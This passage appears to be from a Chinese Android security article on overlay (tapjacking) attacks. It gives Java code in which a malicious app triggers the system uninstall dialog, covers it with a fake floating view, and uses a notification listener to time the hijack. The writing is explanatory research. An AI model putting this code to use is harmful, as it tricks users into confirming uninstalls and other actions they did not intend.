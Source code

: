 （3）监听对话框的退出时机，一旦在对话框之外有点击事件，即退出  

```
private class FloatingOnTouchListener implements View.OnTouchListener {
        private int x;
        private int y;

        @Override
        public boolean onTouch(View view, MotionEvent event) {
            switch (event.getAction()) {
                case MotionEvent.ACTION_OUTSIDE:
                    windowManager.removeView(button);
                default:
                    break;
            }
            return false;
        }
    }
}
```

恶意 APP 在请求卸载的同时，启动 FloatingButtonService 使用欺骗内容覆盖在正常的对话框之上。

```
Intent intent = new Intent();
intent.setComponent(new ComponentName("com.google.android.packageinstaller", "" +
         "com.android.packageinstaller.UninstallerActivity"));
intent.setData(Uri.parse("package:android")); // put arbitrary unstallable package name here
startActivity(intent);

Intent intent2 = new Intent(MainActivity.this, FloatingButtonService.class);
startService(intent2);
```

![](https://mmbiz.qpic.cn/mmbiz_png/kVCSSCFiaG8IdhDrGZlUxhlJbcWA5WGyLia4BwAJuIRPVxOicwUFuhxNGIniaYUHH57hZDSmtTgeogNZehw3Xy7FuA/640?wx_fmt=png)

图 3 请求卸载的虚假对话框  

注意虚假对话框其实只覆盖了正常对话框中除按钮以外的其他部分，下面的按钮还是属于 PackageInstaller 应用的，当用户点击 OK 时，其实已经卸载了恶意 APP 请求卸载的 package，而此时恶意 APP 也已经监听到了 ACTION_OUTSIDE 事件，于是主动退出。在整个欺骗过程中，用户难以察觉自己其实已经确认了一次卸载操作。

#### **_2.3 监听对话框出现的其他信息_**

除了” 主动请求、主动劫持 “这种恶意 APP 可以主动控制劫持时机的情况，恶意 APP 还可以监听用户确认对话框出现的其他时机，例如有特定的广播事件、特定的通知，在时机出现的时候进行劫持。例如，在重要对话框出现时，将出现一个通知，恶意 APP 可以监听通知该通知的出现，通过实现一个 NotificationListenerService，捕捉特定的通知，并启动服务，在原有对话框之上悬浮一个欺骗的对话框

```
public class ListenService extends NotificationListenerService {
    public void onNotificationPosted(StatusBarNotification sbn) {
        if (!sbn.getPackageName().equals(TARGET_PACKAGE)) return; // 监听特定包名

        Notification notification = sbn.getNotification();
        if (notification.extras.get("android.title").equals(TARGET_HINT)) { // 监听特定通知
            Log.d("sbn", "target notification received!");
            startOverlayService(); // 启动服务，进行劫持
        }
    }
```
